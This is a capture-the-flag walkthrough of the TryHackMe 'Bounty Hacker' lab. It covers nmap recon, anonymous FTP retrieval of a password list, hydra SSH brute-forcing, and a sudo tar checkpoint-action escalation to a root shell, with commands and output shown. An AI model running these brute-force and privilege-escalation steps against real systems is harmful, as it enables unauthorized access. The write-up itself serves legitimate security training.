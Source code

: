 # BountyHunter
```
t3nsh0@KALI:~/htb/smag$ sudo nmap 10.10.146.130 -sC -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-31 21:11 CEST
Nmap scan report for 10.10.146.130
Host is up (0.071s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.10.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.86 seconds
```

Webpage telling us we have to hack this room... I downloaded the picture and tried steghide against it but nothing here.<br>
Nothing else here even after a gobuster scan.

# FTP
It's allowed in anonymous<br>
```
t3nsh0@KALI:~/htb/smag$ ftp 10.10.146.130
Connected to 10.10.146.130.
220 (vsFTPd 3.0.3)
Name (10.10.146.130:t3nsh0): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```
locks.txt is a list of password and task has a username inside of it. 
# SSH
Let's brute force ssh !<br>
I used crackmap exec but it didn't work... I've lost a lot of time because of it...<br>
Let's brute force with hydra !<br>

```hydra -l <userame we found> -P locks.txt 10.10.146.130 ssh```<br>

We are connected and we have our user flag !<br>
# ROOT
Before running linpeas let's check sudo -l<br>
```xxxxxx@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for xxxxxx on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
``` 
<br>
There is a privesc with it on gtfobins so it's an easy win <br>
``sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
``
<br>
Let's run it :<br>
```lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# /bin/bash
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhacker:~/Desktop# ls -l /root/
total 4
-rw-r--r-- 1 root root 19 Jun  7 17:16 root.txt
root@bountyhacker:~/Desktop# 
```
Here we go ! Very easy room but it's still nice to do it. <br>
Thanks [Sevuhl](https://tryhackme.com/p/Sevuhl) !
